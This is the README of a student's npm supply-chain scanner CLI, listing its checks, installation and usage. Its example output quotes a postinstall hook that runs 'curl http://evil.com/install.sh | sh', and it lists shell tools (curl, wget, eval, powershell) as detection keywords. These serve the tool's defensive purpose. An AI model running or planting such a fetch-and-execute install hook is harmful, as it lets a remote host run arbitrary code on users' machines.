

npm-supply-chain-guard
======================
> 🚀 Detect risky npm dependencies before they compromise your project
> A lightweight Node.js CLI tool to detect npm supply-chain security risks.

--------------------------------------------------

QUICK START

npm install -g .
npm-supply-chain-guard .

--------------------------------------------------

WHY THIS PROJECT

Modern applications depend heavily on third-party packages.
This introduces supply-chain risks such as:

- Malicious install scripts
- Tampered dependencies
- Hidden payloads in nested packages

Even trusted libraries can be compromised.

This tool helps detect risky patterns early — before they become real security incidents.

--------------------------------------------------

FEATURES

- Detects risky lifecycle scripts:
  preinstall, install, postinstall, preuninstall, postuninstall

- Flags suspicious commands:
  curl, wget, base64, chmod, eval, powershell, bash, sh

- Detects non-registry dependencies:
  git, http(s), file sources

- Warns about unsafe versioning:
  latest, *, ^, ~, >

- Analyzes package-lock.json:
  - Remote resolved packages
  - Dependencies with install scripts

- Fast, dependency-free CLI tool

--------------------------------------------------

SECURITY & PRIVACY

✔ Runs completely locally  
✔ No data is sent externally  
✔ No external dependencies  

Note:
This tool performs static analysis and does not replace full vulnerability scanners like npm audit.

--------------------------------------------------

INSTALLATION

git clone https://github.com/doolamdattatreya2025/npm-supply-chain-guard.git
cd npm-supply-chain-guard
npm install

(optional global install)
npm install -g .

--------------------------------------------------

USAGE

Scan current project:
node src/index.js .

Scan another project:
node src/index.js /path/to/project

If installed globally:
npm-supply-chain-guard .

--------------------------------------------------

RUN TESTS

npm test

--------------------------------------------------

DEMO

--------------------------------------------------

EXAMPLE OUTPUT

> npm-supply-chain-guard .

🔍 Scanning project: /my-app

⚠ [1] Risky lifecycle script: postinstall -> curl http://evil.com/install.sh | sh
⚠ [2] Suspicious command in script "postinstall": downloads external content with curl
⚠ [3] Unsafe version tag: lodash@latest
⚠ [4] Wide version range detected: express@^4.18.2
⚠ [5] Dependency has install script: node_modules/badpkg

⚠ Total warnings: 5

✅ Scan complete

--------------------------------------------------

WHAT IT DETECTS

- Supply-chain attack indicators
- Malicious install-time execution
- Suspicious dependency sources
- Unsafe version constraints
- Risky nested dependency behavior

--------------------------------------------------

ROADMAP

- SARIF report export (CI/CD integration)
- GitHub security integration
- Typosquatting detection
- Deep dependency analysis
- Web dashboard

--------------------------------------------------

CONTRIBUTING

Contributions are welcome.

If you find a bug or security issue:
- Open an issue
- Or submit a pull request

--------------------------------------------------

LICENSE

MIT License

--------------------------------------------------

AUTHOR

DATTATREYA
Cybersecurity Student
GitHub: https://github.com/doolamdattatreya2025
